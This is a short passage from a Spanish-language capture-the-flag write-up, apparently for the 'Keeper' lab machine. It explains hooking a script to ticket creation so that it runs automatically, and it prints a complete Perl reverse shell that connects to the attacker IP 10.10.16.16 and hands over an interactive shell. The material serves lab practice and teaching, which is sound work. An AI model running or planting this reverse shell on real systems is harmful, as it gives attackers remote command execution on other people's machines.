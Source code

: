 Debemos ponerle estas `opciones` al `script`, para que cuando se cree un `ticket`, se `ejecute` este `script`

![](/assets/img/Keeper/image_15.png)

Para `mandarnos` una `shell` vamos a usar este `script` en `perl`

```
use strict;
use warnings;
use Socket;

# Datos de conexión
my $ip = "10.10.16.16"; # IP del atacante
my $port = 443;        # Puerto al cual conectarse

# Crear el socket y conectarse
socket(SOCKET, PF_INET, SOCK_STREAM, getprotobyname("tcp")) or die "No se puede crear el socket: $!";
connect(SOCKET, sockaddr_in($port, inet_aton($ip))) or die "No se puede conectar a $ip:$port: $!";

# Redirigir STDIN, STDOUT y STDERR al socket
open(STDIN, ">&SOCKET");
open(STDOUT, ">&SOCKET");
open(STDERR, ">&SOCKET");

# Abrir una shell
system("sh -i");

# Cerrar el socket al terminar
close(SOCKET);
```
